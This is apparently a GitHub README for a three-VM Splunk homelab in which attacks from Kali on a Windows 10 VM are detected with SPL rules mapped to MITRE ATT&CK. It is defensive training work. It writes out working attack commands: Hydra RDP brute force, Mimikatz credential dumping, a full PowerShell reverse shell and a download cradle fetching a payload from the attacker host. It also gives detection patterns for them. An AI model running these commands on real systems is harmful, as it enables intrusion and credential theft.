






# Attack Detection Lab

A 3-VM SIEM homelab for detecting real-world attacks using Splunk Enterprise, Kali Linux, and Windows 10 on VirtualBox.

> **Status:** Detections are live and verified against real telemetry. Every rule below
> has been run against the lab's `WinEventLog:Security` data, and the results are shown
> in the [Detection Results & Evidence](#detection-results--evidence) section with
> screenshots from the Splunk dashboard.

## Lab Architecture

```
┌─────────────────────────────────────────────────────────┐
│                    VirtualBox Host                       │
│                                                         │
│  ┌──────────────┐   ┌──────────────┐   ┌─────────────┐ │
│  │  Kali Linux  │   │  Windows 10  │   │   Splunk    │ │
│  │  (Attacker)  │   │   (Victim)   │   │   Server    │ │
│  │              │──▶│              │──▶│  (Ubuntu)   │ │
│  │192.168.56.102│   │ DESKTOP-     │   │192.168.56.x │ │
│  │              │   │ ABVS6BR      │   │             │ │
│  └──────────────┘   └──────┬───────┘   └─────────────┘ │
│                            │ Splunk UF                  │
│                            │ port 9997                  │
│        Host-Only Network: 192.168.56.0/24               │
│        NAT Network: internet access per VM              │
└─────────────────────────────────────────────────────────┘
```

**VM Specs:**
| VM | OS | RAM | Role |
|---|---|---|---|
| Splunk Server | Ubuntu 25.04 | 6 GB | SIEM / Log aggregation |
| Windows 10 (`DESKTOP-ABVS6BR`) | Windows 10 22H2 | 4 GB | Victim / log source |
| Kali Linux (`192.168.56.102`) | Kali 2026.1 | 4 GB | Attacker |

**Network:** Each VM has two adapters — NAT (internet) and Host-only (192.168.56.0/24, isolated lab traffic).

**Log pipeline:** The Windows 10 victim runs the Splunk Universal Forwarder, shipping its
**Security** event log to the Splunk server on port 9997, where it lands in `index=main`
with sourcetype `WinEventLog:Security`.

---

## Attack Simulations

All attacks were run from the Kali Linux VM (`192.168.56.102`) targeting the Windows 10 VM (`DESKTOP-ABVS6BR`).

### 1. Network Reconnaissance — Nmap (T1046)

```bash
nmap -sS -A -p- 192.168.56.<windows-ip>
```

Performs a SYN scan across all 65535 ports with OS/service detection. Generates inbound connection attempts visible in Windows firewall logs.

> _Note: Nmap recon surfaces in firewall/network logs, not in the Windows Security
> event log, so it is not part of the `WinEventLog:Security` detections below._

---

### 2. RDP Brute Force — Hydra (T1110)

```bash
gunzip /usr/share/wordlists/rockyou.txt.gz
hydra -l Administrator -P /usr/share/wordlists/rockyou.txt \
  rdp://192.168.56.<windows-ip> -t 4
```

Attempts password spraying against the RDP service on port 3389. Each failed attempt generates **EventID 4625** in the Windows Security log.

---

### 3. Credential Dumping — Mimikatz (T1003)

Run on the **Windows VM** (simulating post-exploitation after gaining a foothold):

```powershell
# Run as Administrator in PowerShell
.\mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
```

Dumps LSASS memory to extract plaintext credentials and NTLM hashes. Requires enabling process creation auditing to generate **EventID 4688**.

**Enable process auditing (run once on Windows VM):**
```powershell
auditpol /set /subcategory:"Process Creation" /success:enable /failure:enable
```

---

### 4. Reverse Shell — PowerShell (T1059.001)

**Kali — open listener:**
```bash
nc -lvnp 4444
```

**Windows VM — initiate connection:**
```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.56.102", 4444)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object System.Text.ASCIIEncoding).GetString($bytes, 0, $i)
    $sendback = (iex $data 2>&1 | Out-String)
    $sendback2 = $sendback + "PS " + (pwd).Path + "> "
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte, 0, $sendbyte.Length)
    $stream.Flush()
}
```

A download-cradle variant was also used to pull a payload from the Kali host:
```powershell
IEX(New-Object Net.WebClient).DownloadString('http://192.168.56.102:8000/shell.ps1')
```

Both establish attacker-controlled execution and generate **EventID 4688** with a suspicious `powershell.exe` command line.

---

## Splunk Detection Rules (SPL)

Index: `main` · Sourcetype: `WinEventLog:Security`.

> **Field-name note:** These rules use the field names that Splunk actually extracts from
> the raw `WinEventLog:Security` data in this lab. If you normalize with the Splunk Add-on
> for Microsoft Windows (CIM) or Sysmon, equivalent fields differ — see the mapping table
> at the end of this section.

### Rule 1 — RDP Brute Force Detection (T1110)

Triggers when a single source IP generates more than 10 failed logins.

```spl
index=main EventCode=4625
| stats count by Source_Network_Address, Account_Name
| where count > 10
| sort -count
```

**Alert config:** Real-time · Trigger when `count > 10` · Severity: High

---

### Rule 2 — Successful Login After Brute Force (T1110.001)

Detects a successful login from an IP that also had failed attempts — classic brute-force success pattern.

```spl
index=main (EventCode=4625 OR EventCode=4624)
| stats count(eval(EventCode=4625)) as failures,
        count(eval(EventCode=4624)) as successes
        by Source_Network_Address, Account_Name
| where failures > 5 AND successes > 0
| table Source_Network_Address, Account_Name, failures, successes
```

**Alert config:** Scheduled (every 5 min) · Severity: Critical

---

### Rule 3 — Mimikatz / Credential Dumping (T1003)

Detects process-creation events for the Mimikatz binary. The interactive commands
(`sekurlsa::logonpasswords`, etc.) are typed *inside* Mimikatz and do **not** appear on
the process command line, so the rule keys on the process name/path.

```spl
index=main EventCode=4688
  (New_Process_Name="*mimikatz*" OR Process_Command_Line="*mimikatz*"
   OR Process_Command_Line="*sekurlsa*" OR Process_Command_Line="*lsadump*")
| table _time, ComputerName, Account_Name, Creator_Process_Name, New_Process_Name, Process_Command_Line
```

**Alert config:** Real-time · Any result triggers · Severity: Critical

---

### Rule 4 — PowerShell Reverse Shell / Download Cradle (T1059.001)

Detects PowerShell spawning a TCP client or pulling a remote payload — common reverse-shell
indicators. The trailing `*\powershell.exe` match excludes the benign
`splunk-powershell.exe` from the Universal Forwarder.

```spl
index=main EventCode=4688 New_Process_Name="*\\powershell.exe"
  (Process_Command_Line="*DownloadString*" OR Process_Command_Line="*Net.WebClient*"
   OR Process_Command_Line="*IEX*" OR Process_Command_Line="*TCPClient*"
   OR Process_Command_Line="*Net.Sockets*")
| table _time, ComputerName, Account_Name, Creator_Process_Name, Process_Command_Line
```

**Alert config:** Real-time · Any result triggers · Severity: Critical

---

### Field Mapping (raw WinEventLog vs. normalized)

| Concept              | This lab (raw `WinEventLog:Security`) | CIM / Sysmon equivalent |
|----------------------|---------------------------------------|-------------------------|
| Source IP            | `Source_Network_Address`              | `src_ip` / `src`        |
| Targeted account     | `Account_Name`                        | `TargetUserName` / `user` |
| Process command line | `Process_Command_Line`                | `CommandLine`           |
| New process          | `New_Process_Name`                    | `Image` / `process`     |
| Parent process       | `Creator_Process_Name`                | `ParentProcessName` / `parent_process` |
| Host                 | `ComputerName` / `host`               | `host` / `dvc`          |

---

## Detection Results & Evidence

All detections were run live against the lab data. Screenshots are from the
**Attack Detection Lab – Windows Security Monitoring** dashboard (Splunk source XML in
[`dashboards/attack_detection_lab.xml`](dashboards/attack_detection_lab.xml)).



### Event volume captured

| Event Code | Meaning                                   | Count (lab window) |
|-----------:|-------------------------------------------|-------------------:|
| 4688       | A new process was created                 | 2,117              |
| 4624       | An account was successfully logged on     | 451                |
| 4672       | Special privileges assigned to new logon  | 428                |
| 4625       | An account failed to log on               | 34                 |
| 4648       | Logon attempted using explicit credentials| 32                 |



### Verified: RDP Brute Force (T1110)

34 failed-logon (4625) events in a tight burst, all from **`192.168.56.102`** (the Kali
attacker) against the **`Victim`** account, failure reason *"Unknown user name or bad
password."* The time-series shows a single sharp spike against an otherwise quiet baseline.




### Verified: Credential Dumping — Mimikatz (T1003)

Process-creation events show `mimikatz.exe` executed from
`C:\Users\Victim\Downloads\mimikatz_trunk\x64\mimikatz.exe`, launched by
`explorer.exe` under the `Victim` account with an elevated token.



### Verified: PowerShell Reverse Shell / Download Cradle (T1059.001)

Multiple `powershell.exe` process-creation events with the command line
`IEX(New-Object Net.WebClient).DownloadString('http://192.168.56.102:8000/shell.ps1')`
— a remote payload pulled from the Kali host.



---

## MITRE ATT&CK Mapping

| Attack | Tool | MITRE ID | Tactic | Splunk EventCode | Verified in Security log |
|---|---|---|---|---|---|
| Network scan | Nmap | T1046 | Discovery | Firewall/IDS logs | n/a (network logs) |
| RDP brute force | Hydra | T1110 | Credential Access | 4625 (fail), 4624 (success) | ✅ |
| Credential dumping | Mimikatz | T1003.001 | Credential Access | 4688 (process creation) | ✅ |
| Reverse shell | PowerShell | T1059.001 | Execution | 4688 (process creation) | ✅ |

---

## Splunk Dashboard

Dashboard name: **Attack Detection Lab – Windows Security Monitoring** (Classic / Simple XML).
A shared time-range picker drives every panel. Source XML:
[`dashboards/attack_detection_lab.xml`](dashboards/attack_detection_lab.xml).

| Panel | Detection |
|---|---|
| Security Event Volume by Event Code | Overview of all Security events |
| RDP Brute Force: Failed Logons (4625) Over Time | T1110 |
| Failed vs Successful Logons (4625 vs 4624) | T1110 / T1110.001 |
| Brute Force: Source IP and Targeted Account (4625) | T1110 |
| Credential Dumping: Mimikatz Process Creation (4688) | T1003 |
| PowerShell Reverse Shell / Download Cradle (4688) | T1059.001 |

---

## Troubleshooting: Account Lockout During the Brute-Force Test

While running the Hydra brute force, the repeated failed logons tripped the Windows
**Account Lockout Policy**: after the configured number of bad-password attempts, the
target account was locked, which stopped further `4625` events from being generated and
blocked legitimate logons to the account.

**Resolution:**

1. Logged in with a separate **administrator** account (the brute-forced account was locked).
2. Opened **Local Security Policy** (`secpol.msc`) →
   **Account Policies** → **Account Lockout Policy**.
3. Set **Account lockout threshold** to `0` (lockout disabled), then applied with
   `gpupdate /force`.
4. Unlocked / re-enabled the target account and re-ran the brute force, which then
   produced the full burst of `4625` events seen in the dashboard.

**Lesson learned:** account lockout is a defensive control that interferes with brute-force
*testing*, but it is also exactly why brute force is noisy and detectable. In production the
threshold should stay enabled; it was disabled here only to let the lab simulation run end
to end.

---

## Resume Bullets

> **Deployed 3-VM attack detection lab** (Splunk Enterprise, Kali Linux, Windows 10) on VirtualBox with isolated host-only networking; configured Splunk Universal Forwarder to ship Windows Security Event Logs in real time

> **Authored and validated Splunk correlation rules** detecting RDP brute force (EventCode 4625, T1110), credential dumping via Mimikatz (T1003), and PowerShell reverse shell / download cradle (T1059.001); confirmed each against live attack telemetry

> **Mapped all detections to MITRE ATT&CK** and built a live Splunk dashboard visualizing attack telemetry, failed-login trends, source-IP attribution, and suspicious process execution

---

## Tools Used

- [Splunk Enterprise](https://www.splunk.com/) — SIEM and log analysis
- [Kali Linux](https://www.kali.org/) — Attacker OS (Nmap, Hydra, Netcat)
- [Mimikatz](https://github.com/gentilkiwi/mimikatz) — Credential dumping simulation
- [VirtualBox](https://www.virtualbox.org/) — Hypervisor
- [MITRE ATT&CK](https://attack.mitre.org/) — Threat intelligence framework

---

## Repository Structure

```
attack-detection-lab/
├── README.md
├── dashboards/
│   └── attack_detection_lab.xml      # Splunk Simple XML dashboard source
└── docs/
    └── images/
        ├── 00-dashboard-overview.png
        ├── 01-event-volume.png
        ├── 02-brute-force.png
        ├── 03-brute-force-source.png
        ├── 04-mimikatz.png
        └── 05-powershell.png
```
